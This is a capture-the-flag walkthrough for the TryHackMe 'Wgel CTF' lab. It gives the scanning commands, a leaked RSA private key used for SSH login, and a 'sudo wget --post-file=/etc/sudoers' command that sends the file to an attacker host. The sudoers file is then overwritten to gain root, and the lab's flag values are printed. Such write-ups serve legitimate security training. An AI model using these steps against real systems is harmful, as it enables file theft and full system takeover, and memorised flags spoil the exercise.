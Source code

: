 ###### Can you exfiltrate the root flag?
Room: https://tryhackme.com/room/wgelctf
##

**sudo** nmap -sS -sV xx.xx.xxx.xx
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The webpage's source code gives us a potentially username for the SSH service.
```
 <!-- Jessie don't forget to udate the webiste -->
```

**gobuster** dir -u http://xx.xx.xxx.xx -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100
```
/sitemap              (Status: 301) [Size: 314] [--> http://xx.xx.xxx.xx/sitemap/]
```

On the other hand, the sitemap directory wasn't very helpful. However, I decided to fuzz the directory more.  

**ffuf** -u http://xx.xx.xxx.xx/FUZZ -w /usr/share/wordlists/dirb/common.txt --recursion   

There is a hidden **.ssh** directory that contains a **rsa** private key.
```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
-----END RSA PRIVATE KEY-----
```


By saving this to our machine, see that we can authenticate to the SSH service under the jessie user.   

**ssh** -i privatekey jessie@xx.xx.xxx.xx  

We do have acces to the wget command as sudo.  
This means we can use the command to send or get files from another servers.

We can send the content of the **/etc/sudoers** file to our attacking machine, edit the file and get the modified file on the target system.  
For this, we need to set up a netcat listener on our attacking machine.

**sudo wget** --post-file=/etc/sudoers attackerMachineIP:1234 http://attackerMachineIP:1234/  

On the netcat listener, we get the content of the file.  

```
listening on [any] 1234 ...
connect to [xx.x.x.xx] from (UNKNOWN) [xx.xx.xxx.xx] 58384
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: xx.x.x.xx:1234
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 797

#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults	env_reset
Defaults	mail_badpass
Defaults	secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root	ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d
jessie	ALL=(root) NOPASSWD: /usr/bin/wget
```

What we need now is to save the content under the name **sudoers** and change the line 
```
jessie	ALL=(root) NOPASSWD: /usr/bin/wget
```

TO

```
jessie  ALL=(root) NOPASSWD: ALL
```

We also need to remove this part.  
```
listening on [any] 1234 ...
connect to [xx.x.x.xx] from (UNKNOWN) [xx.xx.xxx.xx] 58384
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: xx.x.x.xx:1234
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 797
```


After the file is edited, we can use **wget** on the target machine to retrieve it from our attacking machine.  

[Attacker Machine]  
**python3** -m http.server

[Target Machine]  
**cd** /etc/  
**sudo wget** attackerMachineIP:8000/sudoers --output-document=sudoers

**sudo -l**
```
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: ALL
```

The **sudo su** command gives us root access. 

The **user** flag is at /home/jessie/Documents/user_flag.txt and is **057c67131c3d5e42dd5cd3075b198ff6**.  
The **root** flag is at /root/root_flag.txt and is **b1b968b37519ad1daa6408188649263d**.  
